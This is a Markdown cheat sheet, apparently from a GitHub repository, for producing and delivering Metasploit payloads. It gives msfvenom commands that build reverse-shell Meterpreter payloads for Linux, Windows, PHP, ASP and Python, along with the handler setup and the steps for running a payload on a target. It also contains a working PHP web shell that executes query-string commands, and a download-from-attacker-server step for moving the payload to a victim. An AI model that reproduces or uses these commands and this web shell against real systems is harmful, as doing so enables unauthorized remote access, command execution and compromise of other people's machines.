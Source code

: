 # Metasploit Payload Usage Guide

This guide provides detailed instructions for generating and using payloads with the Metasploit framework, including steps for creating and transferring shells, handling payload connections, and troubleshooting issues that may arise. It also includes a handy cheat sheet for common MSFvenom payloads.

---

## Overview

The Metasploit framework allows you to generate various payloads using **MSFvenom** and subsequently handle incoming connections with **Metasploit’s exploit/multi/handler**. The following process outlines how to create a payload, transfer it to the target device, and set up the listener to receive the incoming connection.

---

## Steps for Using MSFvenom Payloads

1. **Generate the shell** using MSFvenom and transfer it to the target's device.
2. **Start the Metasploit handler** with the following command:
```
use exploit/multi/handler
```

3. **Set the payload value** along with `LHOST` (your machine's IP) and `LPORT` (port on which your handler will listen) values.
4. **Run the handler** by typing `run` in the console and wait for the incoming connection.

---

## MSFvenom Payload Cheat Sheet

MSFvenom is a powerful tool for generating various payloads for multiple platforms. The following are common payloads and how to generate them.

### List of Available Payloads
To list all available Meterpreter payloads, use the following command:
```
msfvenom --list payloads | grep meterpreter
```

### Linux Executable and Linkable Format (ELF)
To create a reverse TCP shell for Linux:
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

- After generating the `rev_shell.elf` file, transfer it to the target machine.
- On the target machine, grant execute permissions with:
```
chmod +x rev_shell.elf
```

- Then run the shell using:
```
./rev_shell.elf
```

### Windows Executable (EXE)
To create a reverse TCP shell for Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP
To create a reverse TCP shell for PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

### ASP
To create a reverse TCP shell for ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python
To create a reverse TCP shell for Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

---

## Troubleshooting: Shell Not Working

If the generated shell doesn’t work as expected, you can try the following PHP code on the target machine to commit code execution:

```
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```

After deploying the PHP script on the target system, execute commands via the query string by navigating to the shell’s URL with the ?cmd=<command> parameter. For example:
```
http://target.com/rev_shell.php?cmd=ls
```
This method allows you to execute arbitrary commands remotely.
# MSFvenom Extensions

Here are some commonly used MSFvenom extensions to enhance your payload generation process:
```
    -l payloads: Lists all available payloads in MSFvenom.
```
```
    -p PATH/TO/PAYLOAD: Defines the payload you want to use (e.g., windows/meterpreter/reverse_tcp).
```
```
    -f: Specifies the format of the payload (e.g., exe, elf, raw).
```
```
    -e: Defines the encoder to use for the payload (e.g., x86/shikata_ga_nai).
```
## Uploading the Shell

To upload the generated shell to the target system, you can use a simple HTTP server to host the payload.

1. On your attacker machine, start a simple HTTP server using Python:
```
python3 -m http.server
```
2. On the victim machine, use PowerShell to download the payload:
```
wget http://10.21.156.95:8000/revhell.php -O revhell.php
```
## Next Steps
Once the payload is successfully transferred to the target and executed, return to the Metasploit handler and wait for the incoming connection. After a successful connection, you can interact with the target system using Meterpreter or other post-exploitation tools provided by Metasploit.

This guide provides the essential steps to generate, transfer, and interact with payloads using MSFvenom and Metasploit. The cheat sheet should serve as a quick reference for common payload formats, while the troubleshooting section provides alternative methods if your initial approach does not work.
